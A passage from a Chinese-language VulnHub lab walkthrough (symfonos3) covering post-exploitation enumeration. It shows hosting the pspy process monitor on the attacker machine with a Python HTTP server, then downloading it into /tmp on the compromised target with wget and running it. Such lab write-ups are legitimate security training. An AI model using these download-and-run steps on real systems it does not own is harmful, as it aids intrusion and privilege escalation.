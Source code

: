 ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos3/22.png)

cerberus 用户下没有找到可以提权的点,查看 passwd 用户可以发现还有个 hades 用户可以登录,使用 [pspy](https://github.com/DominicBreuker/pspy) 这个工具看看有哪些进程

```bash
python -m SimpleHTTPServer 8080
```

```bash
cd /tmp
wget 192.168.141.134:8080/pspy64
chmod +x pspy64
/tmp/pspy64
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos3/23.png)
